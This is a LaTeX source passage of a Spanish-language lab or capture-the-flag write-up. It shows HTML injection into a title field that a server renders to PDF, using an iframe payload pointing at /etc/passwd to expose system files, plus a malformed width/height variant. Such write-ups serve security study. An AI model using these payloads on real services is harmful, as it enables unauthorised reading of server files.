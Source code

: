 \documentclass[a4paper]{article} %
\begin{document}
    \begin{figure}[h] %
        \centering
        \texttt{[image: images/mariano-burpsuite.png]}
        \caption{BurpSuite cambiando contenido del titulo} %
    \end{figure}\par\vspace{6cm}

    Cargamos el PDF y funciona!!!

    \begin{figure}[h] %
        \centering
        \texttt{[image: images/mariano-pdf1.png]}
        \caption{PDF con titulo editado} %
    \end{figure}\par\vspace{10cm}

    \subsection{HTML Injection}

    Sacando conclusiones, seguramente podemos inyectar código HTML en el titulo.

    \begin{lstlisting}[language=html, caption=Inyectamos código HTML para conseguir ver mediante el PDF archivos de la máquina]
    
    <iframe src=/etc/passwd></iframe>
    \end{lstlisting}

    \begin{figure}[h] %
        \centering
        \texttt{[image: images/pdfconhtml.png]}
        \caption{Archivos de la máquina} %
    \end{figure}

    Para poder ver mejor todos los archivos de la máquina mejorando el codigo HTML jugando con {\textbf{\color{blue}width}} y {\textbf{\color{blue}height}}.

    \begin{lstlisting}[language=html, caption=Inyectamos código HTML jugando con width y height para conseguir ver mediante el PDF archivos de la maquina]
    
    <iframe src=/etc/passwd> width=1000px  height=1000px </iframe>
    \end{lstlisting}
\end{document}
